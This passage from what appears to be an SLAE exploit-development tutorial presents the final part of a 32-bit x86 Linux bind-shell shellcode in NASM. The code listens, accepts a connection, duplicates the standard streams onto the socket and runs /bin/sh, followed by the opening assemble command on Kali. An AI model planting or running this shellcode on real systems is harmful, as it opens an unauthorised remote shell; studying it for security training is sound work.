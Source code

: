 ```nasm
    push esi            ; sockfd
    mov ecx, esp        ; *args
    mov bl, 0x4         ; 4 = sys_listen
    mov al, 0x66        ; socketcall
    int 0x80            ; returns 0 in eax

    ; int connfd = accept(sockfd, NULL, NULL);
    push edx            ; NULL
    push edx            ; NULL
    push esi            ; sockfd
    mov ecx, esp        ; *args
    inc bl              ; 5 = sys_accept
    mov al, 0x66        ; socketcall
    int 0x80            ; returns int connfd in eax

    ; int dup2(int oldfd, int newfd);
    mov ecx, edx        ; 0 = STDOUT
    mov ebx, eax        ; store int connfd in ebx
    mov al, 0x3f        ; dup2
    int 0x80
    inc cl              ; 1 = STDIN
    mov al, 0x3f        ; dup2
    int 0x80
    inc cl              ; 2 = STDERROR
    mov al, 0x3f        ; dup2
    int 0x80

    ; execve("/bin/sh", NULL, NULL);
    push edx            ; delimiting NULL for pathname
    push 0x68732f2f     ; //sh
    push 0x6e69622f     ; /bin
    mov ebx, esp        ; pointer to pathname
    push edx            ; delimiting NULL for argv[] & envp[]
    mov edx, esp        ; *const envp[]
    push ebx            ; *pathname
    mov ecx, esp        ; *const argv[]
    mov al, 0xb         ; execve
    int 0x80
```

## Compile & Test
#### Testing Assembly
With the assembly code written, it is now time to compile and test. The commands shown below were run on 64-bit Kali Linux. First, the code should be assembled with `/usr/bin/nasm` as shown below. As the program is written in x86 assembly, the `elf32` file type is specified using the `-f` flag.

```shell
root@kali:~/workspace/SLAE/# nasm -f elf32 shell_bind_tcp.nasm -o shell_bind_tcp.o
```

With the code assembled, the next step is to link the `shell_bind_tcp.o` file with `/usr/bin/ld`. The `-m` flag specifies that the `elf_i386` emulation linker should be used.
